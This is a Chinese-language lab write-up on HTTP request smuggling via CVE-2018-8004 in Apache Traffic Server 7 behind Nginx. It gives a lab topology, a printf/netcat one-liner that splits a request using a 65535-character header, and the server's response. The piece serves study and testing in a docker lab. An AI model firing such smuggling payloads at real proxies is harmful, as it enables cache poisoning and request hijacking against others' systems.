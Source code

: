 关于这四个补丁的分析与复现我觉得 @mengchen 师傅已经写的非常详细了，我就不在赘述了，建议看原文部分 [HTTP 走私攻击实例——CVE-2018-8004](https://paper.seebug.org/1048/#4-httpcve-2018-8004)

这里我们说一下原文没有的部分：

```plain
[dummy-host7.example.com]
                                        |
                                  +-[8080]-----+
                                  | 8007->8080 |
                                  |  ATS7      |
                                  |            |
                                  +-----+------+
                                        |
                                        |
                                  +--[80]----+
                                  | 8002->80 |
                                  |  Nginx   |
                                  |          |
                                  +----------+
```

我们构建以上场景，可以使用我搭建的 docker 实验环境 [lab1](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/lab1)

### Request Splitting using Huge Header

我们可以通过使用 65535 个字符的 header 来进行实验，比如说我们可以通过使用以下代码来发送一个含有 65535 个字符的 header 的请求到 ATS 7:

```plain
printf 'GET_/something.html?zorg2=5_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8007
```

nginx 的返回会直接返回 400 错误，但是有 ATS 7 就比较有趣了，我们会得到一个 400 响应以及 ATS 7 的 200 响应

```plain
HTTP/1.1 400 Invalid HTTP Request
Date: Fri, 29 Nov 2019 18:52:42 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request.
</B></FONT>
<HR>
</BODY>
```
